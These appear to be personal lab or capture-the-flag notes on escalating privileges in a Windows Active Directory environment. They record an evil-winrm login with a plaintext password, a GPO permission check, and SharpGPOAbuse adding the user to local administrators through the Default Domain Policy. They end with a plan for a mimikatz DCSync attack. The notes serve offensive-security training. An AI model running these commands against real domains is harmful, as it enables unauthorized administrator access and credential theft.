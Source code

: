 And have a shell on the box. 

`evil-winrm -i 192.168.135.97 -u charlotte -p 'Game2On4.!'`

We have SeImpersonatePrivilege

![[Pasted image 20250309112038.png]]
![[Pasted image 20250309112133.png]]
my groups 
![[Pasted image 20250309112151.png]]
This `SharpGPOAbuse.exe` is already in charlotte's documents..

![[Pasted image 20250309112325.png]]

Want to enumerate using PowerView. 

![[Pasted image 20250309113231.png]]
Check permissions charlotte has over this policy

`Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName charlotte`

We do have useful permissions over the policy 

![[Pasted image 20250309113517.png]]

Now execute `SharpGPOAbuse.exe` to add current user to local admin group.

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"
```

![[Pasted image 20250309113759.png]]

Now, force update the policy with 

```
gpupdate /force
```

![[Pasted image 20250309113943.png]]

Verify we're an admin

```
net localgroup administrators
```

![[Pasted image 20250309114036.png]]

Added user as owned in Bloodhound but graph still kind of confusing. Maybe retry mimikatz DCSync attack?

transfer mimikatz to target. 

Need to Use mimikatz.ps1 in `~/Tools/AD-Enum/Powersploit/Exfiltration/`
